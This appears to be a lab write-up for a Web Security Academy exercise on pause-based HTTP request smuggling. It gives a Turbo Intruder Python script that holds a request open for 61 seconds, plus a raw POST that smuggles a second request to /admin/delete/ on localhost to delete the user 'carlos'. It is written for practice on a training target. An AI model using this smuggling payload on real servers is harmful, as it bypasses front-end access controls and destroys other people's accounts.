 

(*if not working check if request has \r\n\r\n in the end)


2. payload:
**intruder:**
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['Content-Length: 171\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```


**Attack request:**
```
POST /resources HTTP/1.1
Host: 0adf00fb04059385c078d83200950011.web-security-academy.net
Cookie: session=5FpST7gbaHJvcQdBMBa8GSPprFONGjBP
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=DHagB4bCjIHsqTfd7d05kyFDOmPbthrM&username=carlos
```
(*content length must be correct otherwise intruder pause-filter will fail)

# Lab solved



















